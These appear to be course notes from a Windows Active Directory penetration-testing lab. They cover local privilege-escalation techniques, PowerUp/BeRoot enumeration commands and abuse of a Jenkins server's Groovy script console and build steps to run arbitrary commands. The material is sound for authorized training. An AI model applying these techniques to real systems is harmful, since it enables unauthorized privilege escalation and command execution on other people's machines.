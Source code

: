 # Privesc Techniques
- Missing Patches
- Automated deployment and AutoLogon passwords in clear text
- AlwaysInstalledElevated
- Misconfigured Services
- DLL Hijacking

# Tools

- PowerUp: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- BeRoot: https://github.com/AlessandroZ/BeRoot
- Privesc: https://github.com/enjoiz/Privesc

# PowerUp

#### Get services with unquoted paths and a space in their name
```powershell
Get-ServiceUnquoted -Verbose
```

#### Get services where the current user can write to its binary path or change arguments to the binary
```powershell
Get-ModifiableServiceFile -Verbose
```

#### Get services whose configuration current user can modify
```powershell
Get-ModifiableService -Verbose
```

# Run all checks from Tools

Powerup
`Invoke-AllChecks`

BeRoot
`.\beRoot.exe`

Privesc
`Invoke-PrivEsc`

# Features Abuse

• What we have been doing up to now (and will keep doing further in the class) is relying on features abuse.

• Features abuse are awesome as there are seldom patches for them and they are not the focus of security teams!

• One of my favorite features abuse is targeting enterprise applications which are not built keeping security in mind.

• On Windows, many enterprise applications need either Administrative privileges or SYSTEM privileges making them a great avenue for privilege escalation.

# Jenkins

• Jenkins is a widely used Continuous Integration tool.

• There are many interesting aspects with Jenkins but for now we would limit our discussion to the ability of running system commands on Jenkins.

• There is a Jenkins server running on dcorp-ci (172.16.3.11) on port 8080.

• Apart from numerous plugins, there are two ways of executingcommands on a Jenkins Master.

• If you have Admin access (default installation before 2.x), go to http://<jenkins_server>/script

#### In the script console, Groovy scripts could be executed.
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

#### If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
```powershell
powershell –c <command>
```

• Again, you could download and execute scripts, run encoded scripts and more.

# Learning Objective 5

• Exploit a service on dcorp-studentx and elevate privileges to local administrator.

• Identify a machine in the domain where studentx has local administrative access.

• Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

